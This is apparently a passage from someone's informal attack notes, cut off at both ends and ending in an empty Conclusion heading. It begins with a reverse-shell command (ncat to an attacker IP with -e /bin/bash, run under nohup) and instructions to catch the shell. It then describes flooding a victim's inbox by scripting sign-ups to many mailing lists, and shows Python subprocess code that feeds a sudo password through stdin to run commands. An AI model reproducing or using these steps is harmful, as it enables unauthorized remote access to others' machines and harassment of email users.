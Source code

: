     nohup ncat [attacker's IP] [port] -e /bin/bash &

Then close the window.

On the attacker\'s machine listen on the corresponding port

After this I gain access to execute bash script.

Also, attacker can subscribe the victim email to mail lists so the
victim\'s inbox could be flooded with hundreds of emails.

Use automated scripts to sign up the victim\'s addresss with many forums
in a short time(with only email address and no confirmation).

Some email signups need captchas or confirmation, other doesn\'t and the
script can sign the victim up easily with web crawler, look at [(this
form I found
online)](https://www.hup.harvard.edu/news/mailing-list.html%5D) .

While this attack requires much time to find the website and signup for
the email address, I think it is feasible because it automates email
from other providers and basically floods the victim with thousands of
emails.

## Accessing the shell with python

Using the subprocess library, either with subprocess.run or
subprocess.Popen, I can access the shell easily and run commands. Use
the communicate function to run sudo commands like

    import subprocess

    password = ''
    cmd = 'sudo -S apt upgrade'  # -S allows password from stdin

    process = subprocess.Popen(
        cmd, 
        shell=True, 
        stdin=subprocess.PIPE, 
        stdout=subprocess.PIPE, 
        stderr=subprocess.PIPE
    )

    # communicate sends the password to the process's stdin
    stdout, stderr = process.communicate(input=f'{password}\n'.encode())

    print(stdout.decode())

Also, I can use the paramiko library to access the remote server.

By accessing the shell with python I can then effectively control
multiple instances.

## Conclusion
